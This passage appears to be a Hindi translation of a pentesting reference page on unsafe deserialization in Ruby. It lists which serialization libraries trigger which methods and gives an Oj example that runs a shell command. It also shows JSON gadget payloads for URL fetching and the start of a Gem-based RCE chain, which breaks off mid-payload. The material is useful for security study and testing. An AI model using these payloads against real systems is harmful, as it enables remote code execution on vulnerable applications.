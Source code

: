 
### अन्य पुस्तकालय

यह तकनीक[ **इस ब्लॉग पोस्ट**](https://github.blog/security/vulnerability-research/execute-commands-by-sending-json-learn-how-unsafe-deserialization-vulnerabilities-work-in-ruby-projects/?utm\_source=pocket\_shared) से ली गई थी।

अन्य Ruby पुस्तकालय हैं जिन्हें ऑब्जेक्ट्स को सीरियलाइज़ करने के लिए उपयोग किया जा सकता है और इसलिए इसका दुरुपयोग करके असुरक्षित डेसिरियलाइजेशन के दौरान RCE प्राप्त किया जा सकता है। निम्नलिखित तालिका इनमें से कुछ पुस्तकालयों और उन विधियों को दिखाती है जिन्हें लोड की गई पुस्तकालय के अनसीरियलाइज होने पर कॉल किया जाता है (RCE प्राप्त करने के लिए दुरुपयोग करने के लिए मूल रूप से कार्य):

<table data-header-hidden><thead><tr><th width="179"></th><th width="146"></th><th></th></tr></thead><tbody><tr><td><strong>पुस्तकालय</strong></td><td><strong>इनपुट डेटा</strong></td><td><strong>क्लास के अंदर किक-ऑफ विधि</strong></td></tr><tr><td>Marshal (Ruby)</td><td>बाइनरी</td><td><code>_load</code></td></tr><tr><td>Oj</td><td>JSON</td><td><code>hash</code> (क्लास को हैश (मैप) में कुंजी के रूप में डालना आवश्यक है)</td></tr><tr><td>Ox</td><td>XML</td><td><code>hash</code> (क्लास को हैश (मैप) में कुंजी के रूप में डालना आवश्यक है)</td></tr><tr><td>Psych (Ruby)</td><td>YAML</td><td><code>hash</code> (क्लास को हैश (मैप) में कुंजी के रूप में डालना आवश्यक है)<br><code>init_with</code></td></tr><tr><td>JSON (Ruby)</td><td>JSON</td><td><code>json_create</code> ([json_create के बारे में नोट्स देखें अंत में](#table-vulnerable-sinks))</td></tr></tbody></table>

बुनियादी उदाहरण:
```ruby
# Existing Ruby class inside the code of the app
class SimpleClass
def initialize(cmd)
@cmd = cmd
end

def hash
system(@cmd)
end
end

# Exploit
require 'oj'
simple = SimpleClass.new("open -a calculator") # command for macOS
json_payload = Oj.dump(simple)
puts json_payload

# Sink vulnerable inside the code accepting user input as json_payload
Oj.load(json_payload)
```
Oj का दुरुपयोग करने की कोशिश के मामले में, एक गैजेट क्लास मिलना संभव था जो अपने `hash` फ़ंक्शन के अंदर `to_s` को कॉल करेगा, जो spec को कॉल करेगा, जो fetch\_path को कॉल करेगा, जिससे इसे एक यादृच्छिक URL लाने के लिए बनाया जा सकता था, जो इन प्रकार की अस्वच्छ deserialization कमजोरियों का एक बड़ा डिटेक्टर प्रदान करता है।
```json
{
"^o": "URI::HTTP",
"scheme": "s3",
"host": "example.org/anyurl?",
"port": "anyport","path": "/", "user": "anyuser", "password": "anypw"
}
```
इसके अलावा, यह पाया गया कि पिछले तकनीक के साथ एक फ़ोल्डर भी सिस्टम में बनाया जाता है, जो किसी अन्य गैजेट का दुरुपयोग करने के लिए एक आवश्यकता है ताकि इसे कुछ इस तरह से पूर्ण RCE में परिवर्तित किया जा सके:
```json
{
"^o": "Gem::Resolver::SpecSpecification",
"spec": {
"^o": "Gem::Resolver::GitSpecification",
"source": {
"^o": "Gem::Source::Git",
```
